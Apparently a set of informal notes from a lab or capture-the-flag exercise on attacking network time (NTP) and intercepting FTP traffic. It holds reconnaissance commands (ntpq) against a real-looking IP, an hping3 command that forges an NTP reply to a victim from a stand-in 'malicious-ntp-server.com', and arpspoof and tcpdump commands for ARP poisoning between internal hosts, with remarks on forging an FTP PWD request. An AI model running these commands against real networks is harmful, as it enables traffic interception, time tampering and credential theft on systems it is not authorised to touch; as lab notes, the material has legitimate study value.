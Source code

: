 With no authentication, an attacker can simply **capture** valid time packets and resend them, tricking a system into accepting fake or outdated time.

ntpq -c rv 20.101.57.9
This will retrieve details like the server version, precision, stratum level, and sync source.

ntpq -p 20.101.57.9
This shows which NTP servers this machine syncs with.

### **MITM (Man-in-the-Middle) NTP Injection**

- If an attacker **intercepts NTP traffic** (e.g., on an open Wi-Fi network), they can inject **fake timestamps** into responses.
- Since **NTP uses UDP (port 123) without encryption**, it's vulnerable to **spoofing and replay attacks.**

🔹 Example: An attacker **captures NTP packets**, modifies them, and resends them with fake timestamps.  
Using tools like `ettercap` or `scapy`, an attacker can **redirect and alter** NTP traffic.


### **NTP Reply Spoofing (Packet Injection)**

- If an attacker **spoofs an NTP response**, they can force a client to accept a wrong time.
- This works **if the client does not use authentication (no `keyid`).**

🔹 Example: Sending a **forged** NTP reply


`hping3 -2 -p 123 -c 1 --spoof victim_ip malicious-ntp-server.com`

This makes the **victim think the NTP server is sending valid timestamps** when it's actually fake.


sudo ntpdate -q 20.101.57.9
If it **adjusts time** without authentication, it's a **spoofing risk**.

🔹 **`time.windows.com` is not a single server**—it’s a **DNS round-robin** that resolves to **multiple different NTP servers**.  
🔹 Each machine might query a **different** IP from the pool, and those servers might have **slightly different times**.

nslookup time.windows.com

send pcap of communication of servers to the ftp


*.3.1 is contacting ftp server asks for PWD and leaves 
maybe check and forge the request of PWD to a different one?





sudo tcpdump -i eth0 host 192.168.3.1
sudo arpspoof -i eth0 -t 192.168.2.8 192.168.2.254
sudo arpspoof -i eth0 -t 192.168.2.254 192.168.2.8

implemented forwarder

ls -l */ on ftp return
clock/
